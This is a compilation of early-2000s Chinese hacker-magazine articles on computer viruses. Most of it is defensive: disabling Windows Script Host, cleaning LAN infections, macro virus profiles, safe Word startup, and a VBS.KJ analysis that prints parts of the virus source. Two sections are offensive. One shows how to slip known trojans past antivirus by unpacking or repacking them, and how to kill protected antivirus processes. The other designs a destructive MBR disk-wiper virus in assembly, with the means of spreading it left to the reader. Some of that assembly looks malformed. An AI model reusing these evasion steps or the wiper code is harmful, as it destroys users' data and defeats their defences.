第三步：就是利用杀毒软件来解决了，金山毒霸、KV3000 等等都不错，只要升级之后即可删除了。

大部分人都认为安装了杀毒软件每天更新就可以防止最新的木马及病毒，其实并非如此。杀毒软件只凭简单地读取病毒一部分代码或文件大小等特征，我们只须简单地对病毒进行修改就可以骗过杀毒软件。

如果你不大相信，你可以看看以下的例子，从中你更能了解杀毒软件。

### 一、瑞星

首先我们拿瑞星杀“网吧幽灵”来测试，如图 1 所示：


## 杀毒软件真的安全吗？

瑞星已经发现病毒，但经过我们修改软件，就可以通过杀毒软件扫描。瑞星杀毒认为“网吧幽灵”为病毒的是 222K，通过 language 检测很明显知道被 aspack 压缩过，通过脱壳工具 aspackdie 将“网吧幽灵”脱壳，脱壳之后为 772K。

然后我们再查脱壳后的文件 unpacked.exe，你会发现瑞星已经不认为“网吧幽灵”是病毒了，如图 2 所示：


## 曙光

其实此种方法在瑞星之前的版本已经存在，看来还是没有解决。

因为一些木马的出现，所以在新版本中已经不能杀掉瑞星进程，但通过以下方法还是可以结束进程的。我发现瑞星只将 EXE 注册为服务，因为默认情况下是启动，所以没办法终止进程。但只要把服务先停止，然后即可杀掉进程，如图 3 所示：


### 二、金山毒霸

我们以金山毒霸查杀冰河客户端为例。因为金山毒霸不杀“网吧幽灵”，没法比较，如图 4 所示：


刚开启目录群霸就发现是病毒，所以只好关闭杀毒软件，然后我们再通过 language 检测冰河客户端，发现同样也是用 aspack 压缩过。我们通过 aspackdie 将冰河客户端脱壳为 unpacked.exe，大小为 1.29MB，然后我们再通过毒霸查杀，便还会发现是病毒，如图 5 所示：


所以我只好再用 aspack 将冰河客户端压缩，然后再用毒霸查毒时，发现已不再认为是病毒啦！

同样因为一些木马及病毒会杀掉毒霸进程，所以在新版本毒霸中同样也有进程不会被杀死，进程名为 kavsvc。虽然不可以被杀死，但只要把它的服务停止，也就是处理毒霸要多加一些代码，如图 6 所示：


虽然界面非常美观，但查毒效果不是很理想。最好在自己的产品上下功夫，而不是进行恶意市场竞争。只有不断提高产品的技术含量，才能让消费者获得更多有价值的东西……

> LOOK  
> 解决对策  
> 杀毒软件自身更应该受到保护，可以利用“异常无法结束进程”的办法清除病毒。还要与操作系统进行紧密结合，还要改善杀毒特征！

## 如何防治脚本病毒

文清

脚本病毒的执行离不开 Windows Script Host（WSH），WSH 为宿主脚本创建环境。也就是说，当脚本到达你的计算机时，WSH 充当主机的一部分，它使对象和服务可用于脚本，并提供一系列脚本执行指南。此外，Windows 脚本宿主还管理安全性并调用相应的脚本引擎。

对于与 WSH 兼容的脚本引擎来说，WSH 是与语言无关的。它为 Windows 平台提供了简单、功能强大而又灵活的脚本编写功能，允许你从 Windows 桌面和命令提示符运行脚本。Windows 脚本宿主非常适合于非交互式脚本编写的需要，如脚本登录、脚本管理和计算机自动化。

由上可知，WSH 是微软提供的一种基于 32 位 Windows 平台的、与语言无关的脚本解释机制，它使得脚本能够直接在 Windows 桌面或命令提示符下运行。利用 WSH，用户能够操纵 WSH 对象、ActiveX 对象、注册表和文件系统。在 Windows 2000 下，还可用 WSH 来访问 Windows NT 活动目录服务。在带给人们便利的同时，WSH 也为病毒的传播留下了可乘之机。

WSH 依赖于 IE 3.0 及其以上版本提供的 Visual Basic Script 和 JScript 脚本引擎，因此只有在安装 IE 3.0 及其以上版本之后，才能安装 WSH。而在 IE 大行其道的今天，也就意味着我们的系统中都存在着 WSH 的身影！WSH 所对应程序“C:\Windows\wscript.exe”是一个脚本语言解释器（若是在命令行下，则为 cscript.exe），正是它使得脚本可以被执行，就像执行批处理一样。

既然脚本病毒是通过 WSH 来解释执行的，那么将 WSH 卸载掉，就再也不用担心那些脚本病毒了！不过卸载 WSH 是否会对系统有害呢？对一般用户来说没有任何危害！因为 WSH 本来是被系统管理员用来配置桌面环境和系统服务，实现最小化管理的一个手段，但对大部分一般用户而言，WSH 并没有多大用处，所以我们可以禁止 WSH。


卸载 WSH 的方法：在 Windows 98 中（NT 4.0 以上同理），打开“控制面板”，打开“添加/删除程序”，点击“Windows 安装程序”，再双击其中的“附件”一项，然后再在打开的窗口中将“Windows Scripting Host”一项的勾去掉，然后点“确定”，再点“确定”，这样就可以将 WSH 卸载掉。如图 1 所示：

另外，我们还可以通过改变脚本文件的打开方式来防范脚本病毒。

以 VBS 为例，由于默认情况下 VBS 脚本文件是使用 wscript.exe 来打开并加以解释执行的，因此只要将 VBS 脚本文件改为用“记事本”程序 notepad.exe 来打开，那就不会感染蠕虫了。

具体做法：打开“资源管理器”或“我的电脑”，在“查看”菜单下选“文件夹选项”，在弹出的“文件夹选项”对话框中选“文件类型”标签，在“已注册的文件类型”中找到“VBScript 脚本文档”，如图 2 所示。


点击“编辑”按钮，在弹出的“编辑文件类型”对话框中找到“Open”，如图 3 所示：

点击“编辑”按钮，在弹出的“用于执行操作的应用程序”栏中填入“C:\WINDOWS\NOTEPAD.EXE "%1" %*”，如图 4 所示，然后点击“确定”。

以后，双击以 VBS 为后缀名的文件，就会自动用“记事本”程序来打开，从而使 VBS 病毒无法解释运行。

其它脚本可依此法操作。

由于 Windows 脚本宿主是一个自动操作 Windows 的灵活工具，如果落在从事报复破坏活动的人手中，将会非常危险。为了避免对 Windows 脚本宿主不加限制的滥用，Windows 脚本宿主 5.6 采用了一种新的安全模型。脚本用户可在运行脚本之前验证其真实性，脚本开发人员对其脚本进行签名，以免发生未经授权的修改。管理员可以强制实施严格的策略，确定哪些用户有权在本地或远程运行脚本。在 Windows 2000 中，签名验证策略是通过“本地安全策略”编辑器设置的。签名验证策略的注册表项位于以下配置单元：HKEY_CURRENT_USER\SOFTWARE\Microsoft\Windows Script Host\Settings\TrustPolicy，该注册表项设置为以下某个 REG_DWORD 值：

- 0 运行所有的脚本；
- 1 如果脚本不可信，则提示用户；
- 2 只运行可信脚本。

具体将该值设为多少，由你自己选择，我的建议是将该 DWORD 值设为 1。

## 如何清除局域网病毒

清除局域网病毒对一般网络管理员来说是一件比较头疼的事，因为只靠单机杀毒软件是很难消除整个局域网病毒的，而且网络版杀毒软件价格昂贵，并不适合大众用户，所以写这篇文章希望你能够防止病毒在局域网传播。

- 1、如果你的内部网已经存在多种病毒及木马，不须担心，你必须要用正确的心态去面对。即使你重新安装了操作系统，但不用几小时又会被感染病毒。如果你相信自己水平足够，那就不用重新安装了。
- 2、你必须了解感染的是哪种病毒，一般你可以去各大杀毒厂商网站查看病毒的特征，或者找清除病毒的方法。只有了解病毒的特征及传播方式，你才能够更轻松地清除整个局域网。
- 3、如果你确定已找到清除病毒的方法，那你可以按照清除病毒的方法进行清除。如果你没找到病毒清除资料，那就开始从主机开始杀毒吧！因为主机是对外开放的，理论上很容易感染病毒，所以先断绝外部病毒向内部网进行传播。
- 4、然后你一定要下载相应的漏洞补丁，要不然杀完毒之后，还会发现存在很多病毒！因为大部分网络病毒都是通过操作系统漏洞来进行传播。如果该病毒是通过共享文件传播，那是因为共享都设置了 Everyone 权限，病毒会自动查找共享文件，把自身复制一份来骗取你的执行。
- 5、主机清除完病毒之后，打好补丁。如果你不需要 IIS 服务，最好停止服务，因为大部分漏洞都出现在 IIS 上。然后你利用一些安全扫描工具，例如木马与流光（www.netxeyes.org），扫描内网内哪些端口正常泄露。然后你必须一定要下载相应的漏洞补丁，要不然杀完毒之后，还会发现存在很多病毒。
- 6、扫描漏洞之后，建议你安装防火墙来防止绝大部分黑客的入侵。这样才能保证主机在网络上是安全的。
- 7、主机清除完病毒之后，你需要清除客户端病毒，一定要确认这种病毒是通过何种方式来传播自己。假设是以共享文件所传播，那就必须把客户端共享文件全部取消，要注意共享文件里是否已经存在病毒。也可以在共享文件中设置权限来防止病毒传播，如果是利用系统漏洞来传播，那就必须下载相应的漏洞来解决。
- 8、修补病毒的传播漏洞之后，你就可以放心在单机上杀病毒啦！建议杀完病毒之后安装防火墙来防止以后被传播病毒或者入侵。
- 9、安装防火墙之后，你还会发现 139 端口总被探测，也许这是病毒在局域网内寻找机器传播，以下是天网画面，如图 1 所示：


- 10、如果安装防火墙之后你的 139 端口总被探测，说明对方正在探测你的共享资源，或者是指病毒正在找机器传播病毒。

总结：只有找到病毒的传播方式及修补漏洞，才能轻松清除及防止局域网病毒传播。这只是我的经验，如果文章有错误，欢迎你指正。

Email：love821119@msn.com

## 常见的宏病毒介绍

国际上已经报道的 Word 宏病毒已达 120 多种，国内已流行的宏病毒也有十多种，下面就常见的宏病毒为你做一个简单的介绍。

- 1、**AutoOpen 宏病毒**：有些宏病毒只进行自身的传播，并不具破坏性，如较常见的一种 AutoOpen 宏病毒，这种病毒只是将文档保存为模板，并进行自身复制。当打开带病毒的文档时，将自身传染给 Word 的 Normal.dot 模板，然后再传染给干净的文档。宏病毒基本上都靠这种方法进行传染的。
- 2、**巨集病毒**：有些病毒对用户进行骚扰，但不破坏系统。如在每月的 13 日有一种台湾产的“台湾 No.1”宏病毒发作，该病毒发作时会给出一个数字连乘的心算数学题，并警告“若你答错，只好接受震撼教育……”。其实该病毒只是将自身传染给模板文件“Normal.dot”和其它文档，然后告诉你它是“巨集病毒”，并新建 20 个文档（这种病毒打印对话框提示的汉字是 BIG5 码，如果你的 Windows 中的中文系统定的是 GB 码，你会看到一堆混乱的字符）。
- 3、**Helper 病毒**：Helper 病毒每月 10 日发作，该病毒藏身于 AutoClose 宏中，感染后的文件在关闭时被添加一密码——“help”，如果你的 Word 文档在每月 10 日之后突然发现莫名其妙地向你问密码，那么可以试一试“help”，以确定是不是 Helper 病毒。另外 Alliance（每月 2、7、11、12 日发作）、Phardera 等宏病毒也属此类型。
- 4、**MDMA.A（无政府者一号）**：有些病毒极具破坏性，如感染中文版 Word，又感染英文版 Word，发作时间是每月的 1 日。此病毒在不同的 Windows 平台上有不同的破坏性表现：在 3.x 版 Windows 上发作时，在机器的自动批处理文件 autoexec.bat 中加入“deltree /y c:*”，机器在下一次启动后将自动删除 C 盘上的所有文件；在 Windows 95 平台上删除 Windows 目录下的帮助文件（*.hlp）和控制面板文件（*.cpl）；在 Windows NT 平台上删除当前目录下的所有文件；在 Macintosh 机上删除所有文件。发作后会显示“You are infected with MDMA-DMY, Brought to you by MDMA (Many Delinquents, Modern Anarchists)”告诉你，Word 系统已被病毒感染，是一群无政府主义者干的。
- MDMA.C 是 MDMA.A 的一个著名变种，其发作日期随系统平台不同而各异，Macintosh 机上每月 5 日发作，Windows 3.x/95/NT 上每月 20 日后发作，它不再显示任何对话框，并改变了病毒的日期触发机制，破坏性更强，Concept.L 等病毒也是这种极具破坏性的病毒。
- 5、**双重复合型病毒**：有一种双重复合型病毒，如 Nuclear 是由 AutoExec、DropSuriv、FileExit 等 9 种宏病毒复合成的一种 DOS 和 Windows 双柄型驻留宏病毒。Nuclear 发作时将一名为 ph33r 的病毒传染到计算机上并激活，清除机器的 MSDOS.SYS、IO.SYS 和 COMMAND.COM 文件，使计算机瘫痪，这种病毒在每年的 4 月 5 日发作。
- 6、**其它宏病毒**：有些宏病毒会使打印中途打印出混乱信息，如 Nuclear、Kompu 等属此类。有些宏病毒将文档中的部分字符、文本进行替换，如 Concept.F 发作时，用“,”、“e”、“not”替换所有“.”、“a”、“and”。

## 最具破坏力的病毒

涂彦晖


如果有人问你，对硬盘数据最具破坏力的病毒是什么？你可能会说是 CIH 之类。可悲的是，你又要说，为什么我们经常听到各大反病毒公司发布“今天 4 月 26 日，CIH 病毒再次发作，XX 公司又成功修复近 5 吨硬盘”的消息，到网上随便找找都可以找到一大把关于如何恢复被 CIH 破坏了的硬盘的教学文章，甚至笔者这样的菜鸟都成功恢复过几块被 CIH 破坏了的硬盘或是硬盘的大部分数据。

那你又要说，既然 CIH 不至于叫你太难过，那硬盘逻辑锁总叫你为难了吧！不但叫你硬盘不能引导，连软盘、光驱都不能引导。哈哈！硬盘逻辑锁只是利用了操作系统引导的一个小 BUG 而已。笔者就曾经利用这个原理写过一个用于磁盘加密的硬盘保护锁，在 9 月的《黑客 X 档案》上有介绍（你可到 http://www.heibai.net/download/show.php?id=2792 下载）。当然，程序只是用于数据保护的，不是破坏硬盘的。虽然和一些硬盘炸弹原理相同，可出发点不同就完全不同了：）。

> 硬盘逻辑锁的原理是将硬盘主引导区中的分区表做了修改，让扩展分区指向分区表所在的分区，当操作系统引导时，在寻找扩展分区时总是找到自己，从而陷入无穷循环。

知道了这一原理，要解除硬盘逻辑锁就简单了，只要动手做一个特殊的引导软盘，将 MBR 区的分区表清除并重建分区表就一切 OK 了。

可能你又要问，那什么病毒对硬盘最有破坏性呢？有没有一个病毒在发作后硬盘数据将无法恢复呢？答案是肯定的，不信就听我慢慢道来。

首先，让我们来看看为什么被 CIH 破坏的硬盘还可能恢复（不要以为是陈盈豪先生的善良仁慈）。CIH 在发作时利用了 VxD 技术，在 Windows 环境中直接写硬盘扇区，它会从硬盘第一物理扇区（0 柱 0 面 1 扇区）开始，向其中写入垃圾数据，这也是 CIH 的高明之处。这样看来，CIH 并非不想将垃圾数据写满整个硬盘，如果让它写满整个硬盘的话，似乎就看不到有关恢复被 CIH 破坏的硬盘的消息了，神仙也救不了你惨惨的数据了。那是什么阻止了 CIH 向硬盘写垃圾数据呢？答案是 Windows 系统。CIH 在向硬盘写入的过程中，会覆盖 Windows 系统要用到的一些数据，或是在覆盖到 FAT 表的时候，Windows 系统正在通过 FAT 表读取硬盘中的系统文件，而此时 FAT 已经被破坏，致使 Windows 系统无法读取硬盘数据，导致死机。正是因为死机，才保住了我们宝贵的数据。

下面在我编写的病毒思路中就用到了 CIH 的一些方法，也利用了系统引导的薄弱之处，我说的只是病毒的发作部分，至于你是要将其做成 PE 文件，还是把它作为邮件附件利用 MIME 漏洞，或是骗人点击，再或是利用程序修改文件关联，我不管。

> 此病毒分两步走，第一步在 Windows 系统中，将第二步要用到的代码写入硬盘的 MBR 区；第二步也是关键的一步，将垃圾数据从硬盘第一物理扇区（0 柱 1 面 1 扇区）开始……

说到此，有必要介绍一下系统的引导过程。PC 机最初的启动由 BIOS 完成。当开机自检结束时（Power-On Self Test，POST），老的 BIOS 尝试读入软盘的第一个扇区，把它看作引导扇区。若没有软盘，则尝试读入硬盘的第一个扇区。当然现在的 BIOS 可以改变这种次序，先从硬盘启动。实际操作是将硬盘的第一扇区，即位于 0 柱 0 道 1 扇的主引导区（master boot sector）读入内存 0000:7C00 处，并把控制权交给 MBR 中的引导程序。MBR 程序先把自己从 0000:7C00 处读到 0000:0600，之后再检查分区表，并将引导标识（BOOT Boot flag）为 80H 的分区的第一个扇区（即引导记录）读入内存 0000:7C00 处（这也是为什么 MBR 程序要先将自己读入 0000:0600 的原因，否则在没有移交控制权前就死机了），并把控制权移交给操作系统的引导记录。不同的操作系统的引导程序是不同的，对于 WIN9X 来说，引导过程如下：

- 1. 98 引导区中的引导程序首先根据引导记录中的操作系统参数读取文件分配表（FAT），并从操作系统的第 2 个簇将 IO.SYS 读入内存，将控制权交给 IO.SYS 程序。（这也是为什么 IO.SYS 只能用 SYS 命令传输而不能拷贝的原因，因为 IO.SYS 必须从分区的 2 簇开始，并且在连续的簇中，否则引导扇区中的引导记录就找不到 IO.SYS 了）
- 2. 执行 config.sys 和 autoexec.bat。
- 3. 调用 win.com 运行 VMM32.VxD，VMM32.VxD 用 XMS 驱动程序把 VMM 加载到扩展内存。VMM 初始化自身及其它的默认 VxD。VMM 把机器转入到保护模式并创建系统虚拟机。
- 4. 被加载的虚拟外设设备在系统虚拟机上通过运行 krnl386.exe 来启动 Windows。krnl386.exe 加载所有的文件，最后是 Windows 9X 外壳。

不难看出，BIOS 将 MBR 读入内存，不会对 MBR 的内容做任何检查，马上就将执行权交给 MBR 中的主引导程序。根据这一原理，我们可以把 MBR 中的程序改成自己的程序，当然我说的病毒发作程序也是利用这个系统弱点，在操作系统之前得到控制权，将垃圾数据写入硬盘，给硬盘数据以毁灭性的打击。下面来说说一些实现的细节。

### 第一步

将具有写垃圾数据到硬盘功能的代码写入硬盘 MBR 区，当然在不同的系统环境中实现的方法是不一样的，在 16 位的系统中可以这样写：

```asm
DATA SEGMENT
    mbr db ...        ; 其中 ... 代表要写入 MBR 中的十六进制码，共 1BE 字节
DATA ENDS
CODE SEGMENT
ASSUME CS:CODE,DS:DATA,ES:DATA
START:
    mov ax,0201h
    mov cx,0001h
    mov dx,0080h
    mov bx,7000h
    int 13h           ; 将原来的 MBR 区读入内存 ES:7000H...
mov si, offset mbr
mov di,7000h
mov cx,1beh
repnz movsb

mov ax,0301h
mov cx,0001h
mov dx,0080h
mov bx,7000h
int 13h

CODE ENDS
END START
```

因为程序还要保留 MBR 中的分区表，以免用户从其它盘启动时不能找到硬盘而产生怀疑。

将要写入 MBR 区的代码，在内存中覆盖读入内存中的原 MBR 代码，等待写入 MBR 区。

将破坏代码写入硬盘 MBR 区，等待重启动后破坏硬盘数据。

以上是在 16 位环境中实现将破坏代码的写入，但是值得一提的是，以上代码在 WIN9X 系统中仍然可以执行。但是在 9X 下我们最好用 VXD 来实现，尤其是要植入 PE 文件，可以调用 VxD Call IOS_SendCommand 直接对硬盘进行读、写操作。关键是你如何取得 Ring0。这一点 CIH 早已给出了答案：修改 IDT 表，创建一个中断门，然后触发中断，进入 Ring0（我不得不佩服陈盈豪）。如果你有兴趣的话，可以找份源程序看看。


> 强调一点，VXD 是 WIN9X 特有的，它在 NT 下是不能被运行的，在 NT 下实现执行 Ring0 代码，除了编写设备驱动程序外，可能还有一些别的方法。

### 第二步

通过系统引导实现向硬盘写垃圾数据，这一部分的代码不论是什么系统都是一样的。

- 1. 在破坏硬盘数据之前给出一些提示，比如像 WIN98 的提示那样“Windows starting...”，其目的是拖延时间，让程序有足够的时间破坏硬盘。当然还是没有提示的好，因为一提示可能会弄巧成拙，引起用户的注意。


> 因为还没有操作系统，所以我们只能调用 BIOS 的中断 10H，一个字符一个字符地显示，显示一个字符后将光标后移，再把指向字符串的指针后移，显示下一个字符。这样比较麻烦，但我们不可以用 DOS 的 9H 号功能调用，因为此时还没有 DOS。

- 2. 在写入 MBR 区的代码中，在指定位置存放上一次被用户中断前最后备份的 DH 的值，也就是程序最后向硬盘写入的磁头号（当然第一次执行时其值为零）。假设此值被存放在 MBR 区偏移 1B0H 的位置，如果用户发现机器不能启动后，可能会反复重启动计算机，每次启动都会接着上次没写完的地方继续狂写垃圾数据。
- 3. 实现向硬盘写垃圾数据的部分代码：

```asm
mov ax,0201h
mov cx,0001h
mov dx,0080h
mov bx,f000h
int 13h    ; 将 MBR 读入硬盘 0000:f000H
mov di,01H
```

```asm
mov cl,01h
mov dh,[f1b0h]    ; 要写入的磁头号此时保存在 0000:f1b0h
f1b0h:
    mov dl,80h
WRITE:
    mov ax,033fh    ; 一次写 63 个扇区
    mov bx,0000h    ; 写的内容为内存垃圾
    int 13h
    cmp ch,ffh
    jz next1
    inc ch
    jmp write
next1:
    add cx,40h
    cmp cx,ffc1h    ; 是否写完一个柱面
    jz next2
    mov ch,00h
    jmp write
next2:
    cmp dh,ffh
    jz exit         ; 硬盘已写完
    inc dh          ; 磁头数加 1
    mov [f1b0h],dh
    push ax
    push bx
    push cx
    push dx
    mov ax,0201h
    mov cx,0001h
    mov dx,0080h
    mov bx,f000h
    int 13h         ; 将 DH 中的磁头号保存
    pop dx
    pop cx
    pop bx
    pop ax
    mov cx,0001
    jmp write
exit:
```

因为以上代码不是在保护模式下执行，就不至于死机了，那么就可以将垃圾数据完全写满整个硬盘。但是非常可惜的是，用这个方法在实模式下只能写大约 8G 的空间，因此回头想想，这种程序如果称为“最具硬盘破坏力的病毒”是吹牛皮了一点。


> 《黑客 X 档案》郑重声明的是：我写本文的目的有二：其一是希望能提高广大电脑用户的安全意识，不要盲目地传播数据恢复软件，因为有些数据是不能恢复的；也不要盲目地相信杀毒软件，因为世界上每天都在诞生新的病毒。其二是技术交流，破坏不是我的目的；如果有人利用本文中提到的技术做任何违反法律的事情；一切后果自负。

## 如何在带毒环境下使用 Word

作为微软出品的字处理软件，Word 的使用者非常多，这也造成了 Word 宏病毒的广为流传。由于宏病毒种类多，出现速度快，编制起来也相对容易，客观上更加剧了宏病毒的泛滥和流行。即使有最新版的杀毒软件，有时也会令人束手无策，使我们有时不得不在带毒环境下工作，这该怎么办呢？以下是笔者总结出来的方法，可以让你放心地使用 Word，躲开宏病毒的“魔爪”！

首先，删除桌面和“开始→程序”中的 Word 快捷方式“Microsoft Word”。然后打开“我的电脑”，找到 Word 的安装目录，这里假设你的 Word 安装在 `E:\Program Files\Microsoft Office\Office` 下。进入该文件夹，找到 Winword.exe 文件，在上面点击鼠标右键，在弹出的快捷菜单中选择“发送到→桌面快捷方式”，这样就在桌面上建立了一个 Winword.exe 文件的快捷方式。

注意：如果你够仔细的话，你会发现你建立的这个快捷方式名字为“Winword.exe”，而桌面和“开始→程序”中的 Word 快捷方式名字为“Microsoft Word”，两者不仅名字不同，而且“内涵”也不尽相同，在文章的最后我们会介绍两者的不同。

继续我们的工作，用鼠标右键单击该快捷方式，选择“属性”，会弹出“Winword 属性”对话框。选择其中的“快捷方式”标签，然后在“目标”框里填入：`"E:\Program Files\Microsoft Office\Office\WINWORD.EXE" /a /n /m`，给 Winword.exe 加上参数“/a”“/m”和“/n”，输入完毕如图 1，点击“确定”退出即可。

注意：输入时请大家注意在参数“/a”前面有一个空格。


若要打开已感染的 Word 文档，可根据以下方法操作：首先单击“工具”菜单下的“选项”命令，选中“常规”选项中的“宏病毒防护”。然后打开已感染的文档，此时 Word 会发出警告，并给出三种选择，即“打开文档并运行宏”“打开文档但不运行宏”“不打开文档”。

选择“打开文档但不运行宏”，由于不运行宏，所以系统不会受到攻击。将打开的文档另存为文本文件，删除原文件，再存回 Word 格式即可。

注意：由于该方法启动时没有加载任何模板，用户原来对系统所做的自定义均无法使用，在操作过程中切记不能使用模板。

现在，我们再来说说为什么要删除桌面和“开始→程序”中 Word 快捷方式，以及自己建立的 Word 快捷方式和安装 Word 时软件自己建立的 Word 快捷方式有何不同。对于 Word 在安装时自己建立的快捷方式，我们无法为它加上上述参数。如果不信可以试试，用鼠标右键点击桌面上原来 Word 自建的快捷方式，选“属性”，会发现“目标”栏、“起始位置”栏、“快捷键”栏和“运行方式”栏都是灰色不可选取状态，如图 2 所示。


看到了吧，这就是它们之间最大的不同！也是本文的关键所在。

再来解释一下上述参数的含义。“/a”指定 Word 启动时忽略初始化文件，不加载包括 Normal 模板在内的所有模板；“/m”指定 Word 启动时不必运行任何宏，包括 AutoExec 宏，若不使用此开关，启动时按住 Shift 键也可以防止运行 AutoExec 宏；“/n”指定 Word 启动时不打开任何文档。由于宏病毒藏身于 doc 文档、dot 模板和宏中，只要启动 Word 时不打开文档，不加载模板，不运行宏，病毒就无法进入内存。采用此方式启动后可直接开始一个新文档。

## Win2K/XP 中的基本系统进程

当我们在 2K 或 XP 系统中同时按下“Ctrl、Alt 和 Delete”键时，将弹出来一个任务管理器对话框，其中在“进程”标签中，我们将看到弹出框中所显示的目前正在系统下运行的程序或模块。这些就是所谓的进程。这里我们介绍一下 Win2K 中的基本系统进程。

- **smss.exe** // 会话管理子系统，它负责启动用户会话。这个进程是通过系统线程来初始化的，包括对已经正在运行的 Winlogon、Win32（Csrss.exe）线程和设定的系统变量作出反应。在它启动这些进程后，它等待 Winlogon 或者 Csrss 结束。如果这些进程是正常的，系统就关掉了。如果发生了什么不可预料的事情，smss.exe 就会让系统停止响应（就是挂起）。
- **csrss.exe** // 子系统服务客户端进程，这个是用户模式 Win32 子系统的一部分。csrss 代表客户/服务器运行子系统，而且是一个基本的子系统，必须一直运行。csrss 负责控制 Windows，创建或者删除线程和一些 16 位的虚拟 MS-DOS 环境。
- **winlogon.exe** // 管理用户登录进程。这个进程是管理用户登录和退出的，而且 winlogon 在用户按下 CTRL+ALT+DEL 时就激活，显示安全对话框。
- **svchost.exe** // 该进程包含了很多系统服务。该文件对那些从动态连接库中运行的服务来说，是一个普通的主机进程名。Svchost.exe 文件位于系统的 `%systemroot%\system32` 文件夹下。在启动的时候，Svchost.exe 检查注册表中的位置来构建要加载的服务列表。这就会使多个 Svchost.exe 在同一时间运行。每个 Svchost.exe 的实例同时包含一组服务，以致单独的服务必须依据 Svchost.exe 怎样和在哪里启动。这样就更加易于控制和查找错误。

## VBS.KJ 新欢乐时光病毒的初步剖析

leonshoh

VBS.KJ 是一个感染 html/htm、jsp、vbs、php、asp 的脚本类病毒。和欢乐时光“VBS.HappyTime”一样，该病毒采用 VBScript 语言编写，在互联网上通过电子邮件进行传播，也可以通过文件感染；感染后的机器系统资源被大量消耗，速度变慢；利用 Windows 系统的“资源管理器”进行寄生与感染。

然而，与欢乐时光相比，VBS.KJ 病毒虽然经过改进。首先，每次感染都会进行一次变形，不可以通过普通的特征码匹配查找方法检测；其次，该病毒不会主动发送电子邮件，而是修改系统中 Microsoft Outlook Express、Microsoft Outlook 2000/XP 的设置，采用 HTML 格式的信纸来撰写邮件，病毒感染全部信纸。当发送邮件时病毒会附在邮件中，隐蔽性更强。第三，会感染 html/htm、jsp、vbs、php、asp 等格式的文件，不会删除系统文件。

本人在学校机房上网，不幸的是所有的软件全部感染病毒，那两个幽灵般的 Folder.htt 和 desktop.ini 文件总是删了以后再次出现（如图 1 所示），于是准备初步地研究一下病毒。


我们先用文本方式打开这两个文件看看，desktop.ini 没什么东西可疑，再看 Folder.htt 里面，在首行有 `<BODY onload="vbscript:KJ_start()">`，看见了吗？这是 HTT 文件运行脚本的入口，如图 2 所示。


我们继续往下看，在 `</html>` 超文本文件的结束符后面竟然还有一段脚本，而且是乱码，这极有可能是病毒的代码，因为脚本病毒是明码病毒，病毒作者为了掩人耳目就给病毒加密了，不过不用着急，病毒的解密代码也在其中！看 `</script>` 上面的第二行，懂得 VBS 的朋友很快就看出了是病毒没有加密过的代码，这应该就是我们要的解密的密码本。这个病毒很像 DOS 下的外壳型的文件性病毒，不过它不感染 EXE 和 COM 文件，如图 3 所示。

好了，开始工作，vbCrLf 是 VBS 的常量（相当于按下回车），我们把括号里的内容复制下来存为一个文件，把密文也复制下来（注意不要把引号复制下来，不然也是一堆密文）存为一个文本文件。读了病毒的解密代码，原来病毒作者通过改变每个字符的 ASCII 码来实现病毒的加密，我们就用它的解密代码解密吧！在复制下的解密文件里添加几行 VBS 代码就搞定了！

```vbscript
Dim KeyArr(3), thistext, fs
set fs=createobject("scripting.filesystemobject")
set vir=fs.opentextfile("mwen.txt")
exestring=vir.readall
KeyArr(0)=2
KeyArr(1)=4
KeyArr(2)=0
KeyArr(3)=7
For i=1 To Len(ExeString)
  TempNum = Asc(Mid(ExeString,i,1))
  If TempNum = 18 Then
    TempNum = 34
  End If
  TempChar = Chr(TempNum+KeyArr(i Mod 4))
  If TempChar = Chr(28) Then
    TempChar = vbCr
  ElseIf TempChar = Chr(29) Then
    TempChar = vbLf
  End If
  ThisText = ThisText & TempChar
Next
set newly=fs.createtextfile("happytimecode.txt",true)
newly.write thistext
newly.close
```

OK，把文件存为后缀为 VBS 的脚本，双击后，在旁边就会生成一个 TXT 文件，里面就是病毒的源代码！

根据分析病毒的源代码，我们可以知道病毒的作者用了一定的技巧，比如该病毒每次感染都会变形，用了随机数加密，可以逃过普通的检测，不过我觉得病毒的作者有一点疏忽，就是感染文件时没有用随机生成的加载函数名，而是用了 KJ_start() 的特征码，而且病毒感染的方式是从文件的尾部添加代码的，所以给清除感染病毒文件的杀毒代码带来了方便，如图 4 所示。

如果病毒感染了 Folder.htt 文件，在同一个文件夹下会生成 desktop.ini 文件，Windows 默认方式是按 WEB 方式打开文件夹，结果是每次打开文件夹就运行了一次病毒，这样就加快了病毒的传播速度，怪不得一天时间就感染了学校机房的所有电脑！

## 黑客X档案2002—2003年合订本

God，幸好病毒的作者把 `DiskTemp.DriveType` 设为 1 和 2，没有设为 3，不然感染上电脑映射的网络盘，就更加快了局域网病毒的传播（呵呵，应该能胜过 network.vbs 的蜗牛吧！）。

```
（病毒源码片段）

vb
Dim InWhere,HtmlText,VBSText,DegreeSign,AppleObject,FSO,WsShell,WinPath,SubE,Final
Sub KJ_start()
KJSetD()
KJCreateAllView()
KJLikeIt()
KJCreateMail()
KJPropogats()
End Sub

Function KJAppendTo(FilePath,TypeStr)
On Error Resume Next
Set ReadTemp = FSO.OpenTextFile(FilePath,1)
TmpStr = ReadTemp.ReadAll
If InStr(TmpStr,"KJ_start()") <> 0 Or Len(TmpStr) < 1 Then
ReadTemp.Close
Exit Function
End If
If TypeStr = "htm" Then
ReadTemp.Close
Set FileTemp = FSO.OpenTextFile(FilePath,2)
...
End Function
```


至于病毒的危害，我也不多说了，网上有很多，还有许多朋友也亲身经历过，我们在这里具体探讨一下怎么样以毒攻毒。既然 VBS.KJ 是用 VBS 脚本写的，我们是不是也可以写一个脚本来杀死病毒呢？答案是肯定的，下面是我写的杀 VBS.KJ 病毒的 VBS 代码：

```vb
**********kill VBS.KJ**********
*****written by leonshon*****
On Error Resume Next
Dim fs, ws, windir, sysdir
Set fs = CreateObject("Scripting.FileSystemObject")
Set ws = Wscript.CreateObject("Wscript.Shell")
Set windir = fs.GetSpecialFolder(0)
Set sysdir = fs.GetSpecialFolder(1)

alldrive()
rewritereg()

Sub alldrive()
On Error Resume Next
Dim d, dc
Set dc = fs.Drives
For Each d In dc
If d.DriveType = 2 Or d.DriveType = 3 Or d.DriveType = 1 Then
folderlist (d.Path & "\")
End If
Next
End Sub

Sub folderlist(folderspec)
On Error Resume Next
Dim f, f1, sf
Set f = fs.GetFolder(folderspec)
Set sf = f.SubFolders
For Each f1 In sf
killKJVir(f1.Path)
folderlist (f1.Path)
Next
End Sub
```

```vb
Sub killKJVir(folderspec)
On Error Resume Next
Dim f, ext, fl, fc, i, filename
Set f = fs.GetFolder(folderspec)
Set fc = f.Files
For Each fl In fc
